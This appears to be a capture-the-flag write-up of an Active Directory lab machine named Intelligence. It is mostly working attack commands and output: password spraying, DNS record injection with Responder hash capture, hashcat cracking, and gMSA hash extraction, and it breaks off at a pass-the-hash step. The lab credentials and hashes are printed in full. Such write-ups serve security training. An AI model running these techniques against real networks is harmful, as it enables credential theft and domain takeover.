

# Intelligence
## Host file setup
```python
sudo nxc smb 10.129.95.154 --generate-hosts-file /etc/hosts                                                                  
[sudo] password for kali: 
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```
- SMB signing is enabled
- Null auth enabled

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc.intelligence.htb   
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-14 15:29 +0100
Nmap scan report for dc.intelligence.htb (10.129.95.154)
Host is up (0.015s latency).
rDNS record for 10.129.95.154: DC.intelligence.htb
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
49667/tcp open  unknown
49691/tcp open  unknown
49692/tcp open  unknown
49711/tcp open  unknown
49717/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.79 seconds
```
### Nmap
```python
nmap -p 53,80,88,135,139,445,464,593,636,3268,3269,9389 -A --min-rate=2000 -sT dc.intelligence.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-14 15:31 +0100
Nmap scan report for dc.intelligence.htb (10.129.95.154)
Host is up (0.015s latency).
rDNS record for 10.129.95.154: DC.intelligence.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Intelligence
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-14 21:31:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-14T21:33:20+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-14T21:33:20+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-14T21:33:20+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (96%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (96%), Microsoft Windows 10 1903 - 21H1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
Null auth is enabled cannot list shares or users

Guest account is disabled

## HTTP (80)
### Nuclei
```python
nuclei -u http://intelligence.htb/                                                                

[iis-shortname-detect] [http] [info] http://intelligence.htb/*~1*/a.aspx
[iis-shortname-detect] [http] [info] http://intelligence.htb/jta3iyc9*~1*/a.aspx
[iis-shortname-detect] [http] [info] http://intelligence.htb/*~1*/a.aspx
[waf-detect:modsecurity] [http] [info] http://intelligence.htb/
[ldap-metadata] [javascript] [info] intelligence.htb:389 ["BaseDN: dc=389","DnsHostName: dc.intelligence.htb","DefaultNamingContext: DC=intelligence,DC=htb","DomainFunctionality: 7","ForestFunctionality: 7","DomainControllerFunctionality: 7"]
[smb-enum] [javascript] [info] intelligence.htb:445 ["OSVersion: 10.0.17763","NetBIOSComputerName: DC","NetBIOSDomainName: intelligence","DNSComputerNamen: dc.intelligence.htb","DNSComputerName: dc.intelligence.htb","ForestName: intelligence.htb"]
[smb-enum-domains] [javascript] [info] intelligence.htb:445 ["DomainName: intelligence.htb"]
[smb-os-detect] [javascript] [info] intelligence.htb:445 ["Windows Server 2019, Version 1809"]
[smb-version-detect:smb-version] [javascript] [info] intelligence.htb:445 ["SMB 2.1"]
[smb2-capabilities] [javascript] [info] intelligence.htb:445 ["["DFSSupport","LargeMTU","Leasing"]"]
[smb2-server-time] [javascript] [info] intelligence.htb:445 ["SystemTime: 2026-04-14T21:39:27.000Z ServerStartTime: 2009-04-22T19:24:48.000Z"]
[ldap-anonymous-login-detect] [javascript] [medium] intelligence.htb:389
[form-detection] [http] [info] http://intelligence.htb/
[microsoft-iis-version] [http] [info] http://intelligence.htb/ ["Microsoft-IIS/10.0"]
[http-missing-security-headers:clear-site-data] [http] [info] http://intelligence.htb/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://intelligence.htb/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://intelligence.htb/
[http-missing-security-headers:referrer-policy] [http] [info] http://intelligence.htb/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://intelligence.htb/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://intelligence.htb/
[http-missing-security-headers:missing-content-type] [http] [info] http://intelligence.htb/
[http-missing-security-headers:strict-transport-security] [http] [info] http://intelligence.htb/
[http-missing-security-headers:content-security-policy] [http] [info] http://intelligence.htb/
[http-missing-security-headers:permissions-policy] [http] [info] http://intelligence.htb/
[http-missing-security-headers:x-frame-options] [http] [info] http://intelligence.htb/
[http-missing-security-headers:x-content-type-options] [http] [info] http://intelligence.htb/
[options-method] [http] [info] http://intelligence.htb/ ["OPTIONS, TRACE, GET, HEAD, POST"]
[tech-detect:ms-iis] [http] [info] http://intelligence.htb/
[caa-fingerprint] [dns] [info] intelligence.htb
```
### Ffuf for subdomains
```python
nothing found
```
### Feroxbuster
```python
feroxbuster -u http://intelligence.htb/ -C 404 

200      GET       56l      165w     1850c http://intelligence.htb/documents/scripts.js
200      GET        1l       44w     2532c http://intelligence.htb/documents/jquery.easing.min.js
200      GET        8l       29w    28898c http://intelligence.htb/documents/favicon.ico
200      GET      106l      659w    26989c http://intelligence.htb/documents/demo-image-01.jpg
200      GET      208l      768w    47856c http://intelligence.htb/documents/2020-01-01-upload.pdf
200      GET      209l      800w    48542c http://intelligence.htb/documents/2020-12-15-upload.pdf
200      GET        7l     1031w    84152c http://intelligence.htb/documents/bootstrap.bundle.min.js
200      GET        2l     1297w    89476c http://intelligence.htb/documents/jquery.min.js
301      GET        2l       10w      157c http://intelligence.htb/documents => http://intelligence.htb/documents/
403      GET       29l       92w     1233c http://intelligence.htb/documents/
200      GET      492l     2733w   186437c http://intelligence.htb/documents/demo-image-02.jpg
200      GET    10345l    19793w   190711c http://intelligence.htb/documents/styles.css
301      GET        2l       10w      157c http://intelligence.htb/Documents => http://intelligence.htb/Documents/
200      GET        5l   108280w  1194960c http://intelligence.htb/documents/all.js
200      GET      129l      430w     7432c http://intelligence.htb/
301      GET        2l       10w      157c http://intelligence.htb/DOCUMENTS => http://intelligence.htb/DOCUMENTS/
400      GET        6l       26w      324c http://intelligence.htb/error%1F_log
400      GET        6l       26w      324c http://intelligence.htb/documents/error%1F_log
400      GET        6l       26w      324c http://intelligence.htb/Documents/error%1F_log
400      GET        6l       26w      324c http://intelligence.htb/DOCUMENTS/error%1F_log
```
Documents directory gives a 403 but i can access files inside

### Website functionality


Subscription functionality

Two PDF downloads on the landing page of the website

`http://intelligence.htb/documents/2020-01-01-upload.pdf`

`http://intelligence.htb/documents/2020-12-15-upload.pdf`

## User enumeration via PDF files
```python
exiftool 2020-01-01-upload.pdf          
ExifTool Version Number         : 13.50
File Name                       : 2020-01-01-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2021:04:01 18:00:00+01:00
File Access Date/Time           : 2026:04:14 15:48:23+01:00
File Inode Change Date/Time     : 2026:04:14 15:48:23+01:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : William.Lee
```
Found a user `william.lee`

```python
exiftool 2020-12-15-upload.pdf 
ExifTool Version Number         : 13.50
File Name                       : 2020-12-15-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2021:04:01 18:00:00+01:00
File Access Date/Time           : 2026:04:14 15:49:13+01:00
File Inode Change Date/Time     : 2026:04:14 15:49:13+01:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Jose.Williams
```
Another user `jose.williams`

Neither of these users are AS-REP roastable

I could try and create a wordlist for this format and try to bruteforce any of those files

## Brute forcing PDF endpoints
```python
cat PDF-wordlist.py                                                    
from datetime import date, timedelta

start = date(2019, 1, 1)
end = date(2026, 4, 14)

with open("dates_wordlist.txt", "w") as f:
    current = start
    while current <= end:
        f.write(f"{current.strftime('%Y-%m-%d')}-upload.pdf\n")
        current += timedelta(days=1)
```
Ill use this script to generate a wordlist with a load of possibilities ill use feroxbuster to do this

```python
feroxbuster -u http://intelligence.htb/documents/ -w dates_wordlist.txt -C 404

301      GET        2l       10w      157c http://intelligence.htb/documents => http://intelligence.htb/documents/
200      GET      135l      429w    19994c http://intelligence.htb/documents/2020-01-23-upload.pdf
200      GET      126l      413w    20001c http://intelligence.htb/documents/2020-01-20-upload.pdf
200      GET      131l      410w    19420c http://intelligence.htb/documents/2020-02-17-upload.pdf
200      GET      208l      768w    47856c http://intelligence.htb/documents/2020-01-01-upload.pdf
200      GET      198l      764w    47929c http://intelligence.htb/documents/2020-01-02-upload.pdf
200      GET      223l      808w    51022c http://intelligence.htb/documents/2020-01-22-upload.pdf
200      GET      130l      415w    20012c http://intelligence.htb/documents/2020-02-28-upload.pdf
200      GET      204l      775w    47096c http://intelligence.htb/documents/2020-01-10-upload.pdf
200      GET      192l      711w    46851c http://intelligence.htb/documents/2020-01-25-upload.pdf
200      GET      133l      404w    19431c http://intelligence.htb/documents/2020-03-21-upload.pdf
200      GET      197l      782w    45164c http://intelligence.htb/documents/2020-02-11-upload.pdf
200      GET      192l      759w    47608c http://intelligence.htb/documents/2020-01-30-upload.pdf
200      GET      133l      404w    19930c http://intelligence.htb/documents/2020-04-02-upload.pdf
200      GET      212l      795w    48725c http://intelligence.htb/documents/2020-02-23-upload.pdf
200      GET      204l      738w    46373c http://intelligence.htb/documents/2020-03-05-upload.pdf
200      GET      207l      762w    49622c http://intelligence.htb/documents/2020-04-04-upload.pdf
200      GET      212l      785w    48342c http://intelligence.htb/documents/2020-03-12-upload.pdf
200      GET      201l      762w    46463c http://intelligence.htb/documents/2020-03-04-upload.pdf
200      GET      195l      778w    48770c http://intelligence.htb/documents/2020-01-04-upload.pdf
200      GET      209l      773w    48528c http://intelligence.htb/documents/2020-03-17-upload.pdf
200      GET      203l      715w    44212c http://intelligence.htb/documents/2020-03-13-upload.pdf
200      GET      211l      787w    47440c http://intelligence.htb/documents/2020-04-15-upload.pdf
200      GET      193l      799w    50143c http://intelligence.htb/documents/2020-05-01-upload.pdf
200      GET      207l      771w    46071c http://intelligence.htb/documents/2020-05-03-upload.pdf
200      GET      206l      766w    47231c http://intelligence.htb/documents/2020-05-17-upload.pdf
200      GET      206l      782w    48435c http://intelligence.htb/documents/2020-05-11-upload.pdf
200      GET      131l      416w    19843c http://intelligence.htb/documents/2020-05-29-upload.pdf
200      GET      193l      775w    46801c http://intelligence.htb/documents/2020-05-21-upload.pdf
200      GET      148l      429w    20637c http://intelligence.htb/documents/2020-05-24-upload.pdf
200      GET      134l      425w    19825c http://intelligence.htb/documents/2020-06-08-upload.pdf
200      GET      135l      416w    19674c http://intelligence.htb/documents/2020-06-03-upload.pdf
200      GET      205l      840w    48566c http://intelligence.htb/documents/2020-02-24-upload.pdf
200      GET      219l      780w    47627c http://intelligence.htb/documents/2020-06-04-upload.pdf
200      GET      127l      395w    19974c http://intelligence.htb/documents/2020-06-12-upload.pdf
200      GET      182l      748w    46443c http://intelligence.htb/documents/2020-05-07-upload.pdf
200      GET      141l      415w    18280c http://intelligence.htb/documents/2020-06-25-upload.pdf
200      GET      206l      740w    46585c http://intelligence.htb/documents/2020-06-22-upload.pdf
200      GET      205l      821w    48412c http://intelligence.htb/documents/2020-06-15-upload.pdf
200      GET      211l      716w    44317c http://intelligence.htb/documents/2020-04-23-upload.pdf
200      GET      185l      773w    46993c http://intelligence.htb/documents/2020-06-14-upload.pdf
200      GET      207l      752w    47044c http://intelligence.htb/documents/2020-06-28-upload.pdf
200      GET      140l      432w    20661c http://intelligence.htb/documents/2020-07-08-upload.pdf
200      GET      201l      736w    48785c http://intelligence.htb/documents/2020-07-02-upload.pdf
200      GET      204l      814w    48636c http://intelligence.htb/documents/2020-06-26-upload.pdf
200      GET      199l      782w    49055c http://intelligence.htb/documents/2020-05-20-upload.pdf
200      GET      211l      801w    49906c http://intelligence.htb/documents/2020-06-02-upload.pdf
200      GET      193l      738w    45246c http://intelligence.htb/documents/2020-06-30-upload.pdf
200      GET      209l      784w    46268c http://intelligence.htb/documents/2020-06-21-upload.pdf
200      GET      137l      448w    20912c http://intelligence.htb/documents/2020-07-20-upload.pdf
200      GET      206l      713w    46644c http://intelligence.htb/documents/2020-07-24-upload.pdf
200      GET      204l      774w    48018c http://intelligence.htb/documents/2020-08-01-upload.pdf
200      GET      216l      801w    49725c http://intelligence.htb/documents/2020-06-07-upload.pdf
200      GET      143l      423w    20043c http://intelligence.htb/documents/2020-08-09-upload.pdf
200      GET      132l      412w    18512c http://intelligence.htb/documents/2020-08-20-upload.pdf
200      GET      182l      717w    44070c http://intelligence.htb/documents/2020-07-06-upload.pdf
200      GET      213l      783w    47838c http://intelligence.htb/documents/2020-08-19-upload.pdf
200      GET      202l      740w    48223c http://intelligence.htb/documents/2020-09-02-upload.pdf
200      GET      145l      431w    21013c http://intelligence.htb/documents/2020-09-11-upload.pdf
200      GET      192l      750w    47233c http://intelligence.htb/documents/2020-09-05-upload.pdf
200      GET      193l      754w    48233c http://intelligence.htb/documents/2020-09-04-upload.pdf
200      GET      188l      731w    45224c http://intelligence.htb/documents/2020-08-03-upload.pdf
200      GET      211l      753w    47532c http://intelligence.htb/documents/2020-09-13-upload.pdf
200      GET      126l      404w    19453c http://intelligence.htb/documents/2020-10-05-upload.pdf
200      GET      192l      768w    45475c http://intelligence.htb/documents/2020-09-06-upload.pdf
200      GET      226l      801w    47900c http://intelligence.htb/documents/2020-09-27-upload.pdf
200      GET      220l      730w    43483c http://intelligence.htb/documents/2020-09-29-upload.pdf
200      GET      196l      762w    46496c http://intelligence.htb/documents/2020-09-30-upload.pdf
200      GET      185l      753w    47228c http://intelligence.htb/documents/2020-11-01-upload.pdf
200      GET      185l      741w    45550c http://intelligence.htb/documents/2020-11-03-upload.pdf
200      GET      219l      785w    46199c http://intelligence.htb/documents/2020-11-06-upload.pdf
200      GET      205l      804w    47007c http://intelligence.htb/documents/2020-11-11-upload.pdf
200      GET      215l      762w    45192c http://intelligence.htb/documents/2020-11-10-upload.pdf
200      GET      133l      382w    19162c http://intelligence.htb/documents/2020-11-13-upload.pdf
200      GET      206l      786w    47908c http://intelligence.htb/documents/2020-09-16-upload.pdf
200      GET      193l      757w    44407c http://intelligence.htb/documents/2020-09-22-upload.pdf
200      GET      212l      818w    48590c http://intelligence.htb/documents/2020-10-19-upload.pdf
200      GET      206l      798w    48840c http://intelligence.htb/documents/2020-11-30-upload.pdf
200      GET      136l      422w    20510c http://intelligence.htb/documents/2020-12-20-upload.pdf
200      GET      199l      789w    47669c http://intelligence.htb/documents/2020-12-10-upload.pdf
200      GET      209l      800w    48542c http://intelligence.htb/documents/2020-12-15-upload.pdf
200      GET      208l      814w    47604c http://intelligence.htb/documents/2020-12-24-upload.pdf
200      GET      126l      403w    19738c http://intelligence.htb/documents/2020-12-28-upload.pdf
200      GET      190l      690w    44700c http://intelligence.htb/documents/2020-12-30-upload.pdf
200      GET      132l      417w    19592c http://intelligence.htb/documents/2020-11-24-upload.pdf
200      GET      214l      792w    49102c http://intelligence.htb/documents/2021-01-25-upload.pdf
200      GET      136l      417w    19382c http://intelligence.htb/documents/2021-01-14-upload.pdf
200      GET      134l      438w    19450c http://intelligence.htb/documents/2021-03-01-upload.pdf
200      GET      138l      413w    18416c http://intelligence.htb/documents/2021-03-07-upload.pdf
200      GET      204l      786w    48078c http://intelligence.htb/documents/2021-02-10-upload.pdf
200      GET      205l      793w    49650c http://intelligence.htb/documents/2021-01-03-upload.pdf
200      GET      140l      432w    20951c http://intelligence.htb/documents/2021-03-27-upload.pdf
200      GET      193l      715w    46040c http://intelligence.htb/documents/2021-01-30-upload.pdf
200      GET      210l      794w    48674c http://intelligence.htb/documents/2021-03-25-upload.pdf
200      GET      211l      777w    48119c http://intelligence.htb/documents/2021-02-13-upload.pdf
200      GET      198l      793w    44476c http://intelligence.htb/documents/2021-03-10-upload.pdf
200      GET      202l      772w    50101c http://intelligence.htb/documents/2021-03-18-upload.pdf
200      GET      204l      765w    47564c http://intelligence.htb/documents/2021-03-21-upload.pdf
```



Found a password

```python
NewIntelligenceCorpUser9876
```
Ill spray this against some of the users found in the metadata of the PDFs

## User compromise
```python
nxc smb dc.intelligence.htb -u users.txt -p 'NewIntelligenceCorpUser9876' --continue-on-success

SMB         10.129.95.154    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```
User compromise

### Access on shares
```python
nxc smb dc.intelligence.htb -u tiffany.molina -p 'NewIntelligenceCorpUser9876' --shares             
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.95.154   445    DC               [+] intelligence.htb\tiffany.molina:NewIntelligenceCorpUser9876 
SMB         10.129.95.154   445    DC               [*] Enumerated shares
SMB         10.129.95.154   445    DC               Share           Permissions     Remark
SMB         10.129.95.154   445    DC               -----           -----------     ------
SMB         10.129.95.154   445    DC               ADMIN$                          Remote Admin
SMB         10.129.95.154   445    DC               C$                              Default share
SMB         10.129.95.154   445    DC               IPC$            READ            Remote IPC
SMB         10.129.95.154   445    DC               IT              READ            
SMB         10.129.95.154   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.95.154   445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.95.154   445    DC               Users           READ
```
Read access on quite a few shares

There are no group policy passwords

### Dumping all the users
```python
nxc smb dc.intelligence.htb -u tiffany.molina -p 'NewIntelligenceCorpUser9876' --users-export users.txt
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.95.154   445    DC               [+] intelligence.htb\tiffany.molina:NewIntelligenceCorpUser9876 
SMB         10.129.95.154   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.95.154   445    DC               Administrator                 2021-04-19 00:18:37 0       Built-in account for administering the computer/domain 
SMB         10.129.95.154   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.95.154   445    DC               krbtgt                        2021-04-19 00:42:42 0       Key Distribution Center Service Account 
SMB         10.129.95.154   445    DC               Danny.Matthews                2021-04-19 00:49:34 0        
SMB         10.129.95.154   445    DC               Jose.Williams                 2021-04-19 00:49:35 0        
SMB         10.129.95.154   445    DC               Jason.Wright                  2021-04-19 00:49:36 0        
SMB         10.129.95.154   445    DC               Samuel.Richardson             2021-04-19 00:49:37 0        
SMB         10.129.95.154   445    DC               David.Mcbride                 2021-04-19 00:49:37 0        
SMB         10.129.95.154   445    DC               Scott.Scott                   2021-04-19 00:49:38 0        
SMB         10.129.95.154   445    DC               David.Reed                    2021-04-19 00:49:38 0        
SMB         10.129.95.154   445    DC               Ian.Duncan                    2021-04-19 00:49:38 0        
SMB         10.129.95.154   445    DC               Michelle.Kent                 2021-04-19 00:49:38 0        
SMB         10.129.95.154   445    DC               Jennifer.Thomas               2021-04-19 00:49:38 0        
SMB         10.129.95.154   445    DC               Kaitlyn.Zimmerman             2021-04-19 00:49:38 0        
SMB         10.129.95.154   445    DC               Travis.Evans                  2021-04-19 00:49:38 0        
SMB         10.129.95.154   445    DC               Kelly.Long                    2021-04-19 00:49:38 0        
SMB         10.129.95.154   445    DC               Nicole.Brock                  2021-04-19 00:49:38 0        
SMB         10.129.95.154   445    DC               Stephanie.Young               2021-04-19 00:49:39 0        
SMB         10.129.95.154   445    DC               John.Coleman                  2021-04-19 00:49:39 0        
SMB         10.129.95.154   445    DC               Thomas.Valenzuela             2021-04-19 00:49:39 0        
SMB         10.129.95.154   445    DC               Thomas.Hall                   2021-04-19 00:49:39 0        
SMB         10.129.95.154   445    DC               Brian.Baker                   2021-04-19 00:49:39 0        
SMB         10.129.95.154   445    DC               Richard.Williams              2021-04-19 00:49:39 0        
SMB         10.129.95.154   445    DC               Teresa.Williamson             2021-04-19 00:49:39 0        
SMB         10.129.95.154   445    DC               David.Wilson                  2021-04-19 00:49:39 0        
SMB         10.129.95.154   445    DC               Darryl.Harris                 2021-04-19 00:49:39 0        
SMB         10.129.95.154   445    DC               William.Lee                   2021-04-19 00:49:40 0        
SMB         10.129.95.154   445    DC               Thomas.Wise                   2021-04-19 00:49:40 0        
SMB         10.129.95.154   445    DC               Veronica.Patel                2021-04-19 00:49:40 0        
SMB         10.129.95.154   445    DC               Joel.Crawford                 2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Jean.Walter                   2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Anita.Roberts                 2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Brian.Morris                  2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Daniel.Shelton                2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Jessica.Moody                 2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Tiffany.Molina                2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               James.Curbow                  2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Jeremy.Mora                   2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Jason.Patterson               2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Laura.Lee                     2021-04-19 00:49:41 0        
SMB         10.129.95.154   445    DC               Ted.Graves                    2021-04-19 00:49:42 0        
SMB         10.129.95.154   445    DC               [*] Enumerated 41 local users: intelligence
SMB         10.129.95.154   445    DC               [*] Writing 41 local users to users.txt
```
Dumped all the users

## IT share
```python
smbclient //dc.intelligence.htb/IT -U 'tiffany.molina'%'NewIntelligenceCorpUser9876'                              
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 19 01:50:55 2021
  ..                                  D        0  Mon Apr 19 01:50:55 2021
  downdetector.ps1                    A     1046  Mon Apr 19 01:50:55 2021

		3770367 blocks of size 4096. 1451522 blocks available
smb: \> get downdetector.ps1 
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (17.9 KiloBytes/sec) (average 17.9 KiloBytes/sec)
smb: \> 
```
Found a powershell script

```python
cat downdetector.ps1                                     
��# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
User `ted.gaves`

Based off this script i think i should be able to add a DNS entry to make it point to my server then since it runs every 5 minutes i can retrieve a NetNTLMv2 hash 


## Compromising `ted.graves`
```python
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --action add --record web-dmuhackers --data 10.10.14.90 --type A 10.129.95.154      
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
Ill start by adding a DNS record

```python
sudo responder -I tun0
```
Then ill start responder and wait!

```python
[HTTP] NTLMv2 Client   : 10.129.95.154
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:3e63f5e5b718cc63:3157DB32021A5C1DAD0E4DD8CE22A75C:010100000000000080706BA564CCDC0179EB9442D63000DC00000000020008004C0034003700540001001E00570049004E002D0033005600320035003000410030004200440032003100040014004C003400370054002E004C004F00430041004C0003003400570049004E002D00330056003200350030004100300042004400320031002E004C003400370054002E004C004F00430041004C00050014004C003400370054002E004C004F00430041004C000800300030000000000000000000000000200000459CD328F3A4DEFBAD71DE288EECA7DA745C307F728320B9AA14B67126CADFF40A001000000000000000000000000000000000000900480048005400540050002F007700650062002D0064006D0075006800610063006B006500720073002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```
I now have the hash of `ted.graves`

### Cracking the hash
```python
hashcat ted-graves.hash /usr/share/wordlists/rockyou.txt

TED.GRAVES::intelligence:3e63f5e5b718cc63:3157db32021a5c1dad0e4dd8ce22a75c:010100000000000080706ba564ccdc0179eb9442d63000dc00000000020008004c0034003700540001001e00570049004e002d0033005600320035003000410030004200440032003100040014004c003400370054002e004c004f00430041004c0003003400570049004e002d00330056003200350030004100300042004400320031002e004c003400370054002e004c004f00430041004c00050014004c003400370054002e004c004f00430041004c000800300030000000000000000000000000200000459cd328f3a4defbad71de288eeca7da745c307f728320b9aa14b67126cadff40a001000000000000000000000000000000000000900480048005400540050002f007700650062002d0064006d0075006800610063006b006500720073002e0069006e00740065006c006c006900670065006e00630065002e006800740062000000000000000000:Mr.Teddy
```
Ive cracked the hash

```python
ted.graves:Mr.Teddy
```
Ill validate these credentials

```python
nxc smb dc.intelligence.htb -u 'ted.graves' -p 'Mr.Teddy'       
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.95.154   445    DC               [+] intelligence.htb\ted.graves:Mr.Teddy
```
This user is compromised


## Bloodhound


This user has ReadGMSAPassword on `svc_int$`

## Compromising `svc_int$`
```python
nxc ldap dc.intelligence.htb -u 'ted.graves' -p 'Mr.Teddy' --gmsa
LDAP        10.129.95.154   389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.95.154   389    DC               [+] intelligence.htb\ted.graves:Mr.Teddy 
LDAP        10.129.95.154   389    DC               [*] Getting GMSA Passwords
LDAP        10.129.95.154   389    DC               Account: svc_int$             NTLM: 3c356107d6b589fdfc215e2c3de484b5     PrincipalsAllowedToReadPassword: ['DC$', 'itsupport']
```
I now have the users NTLM hash 

```python
nxc smb dc.intelligence.htb -u 'svc_int$' -H '3c356107d6b589fdfc215e2c3de484b5'                                               
